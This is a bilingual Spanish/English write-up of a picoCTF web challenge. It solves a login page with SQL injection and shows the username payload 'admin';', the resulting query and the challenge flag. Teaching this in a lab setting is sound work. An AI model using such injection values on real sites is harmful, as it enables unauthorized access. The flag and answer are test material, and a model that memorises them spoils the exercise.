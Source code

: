 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

Hay un sitio web funcionando en `https://jupiter.challenges.picoctf.org/problem/64649/` ([enlace](https://jupiter.challenges.picoctf.org/problem/64649/)). Alguien ha omitido el inicio de sesión antes y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:64649
### Pistas
1. The password is being filtered.

1. La contraseña se está filtrando.
### Solución
1. Viendo en la página del reto, se puede observar en la parte de "Support" que hay gente diciendo que obtiene un SQL Error, por ende, podemos deducir que esta página usa SQL.
2. Vamos al "Admin Login" y escribimos como el usuario a "admin';"
3. Lo que esto hace es obtener al usuario de admin, ignorando lo demás con el punto y coma, dejandonos acceder al obtener los datos del usuario Admin
```
username: admin';
password: caca
SQL query: SELECT * FROM users WHERE name='admin';' AND password='caca'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```
### Notas Adicionales
Para este reto aprendimos a hacer inyecciones a una base de datos desde los campos del sitio, para ello hay que hacer consultas que ya sabemos hacer desde una base de datos.
### Referencias
https://play.picoctf.org/practice/challenge/59
https://jupiter.challenges.picoctf.org/problem/64649/
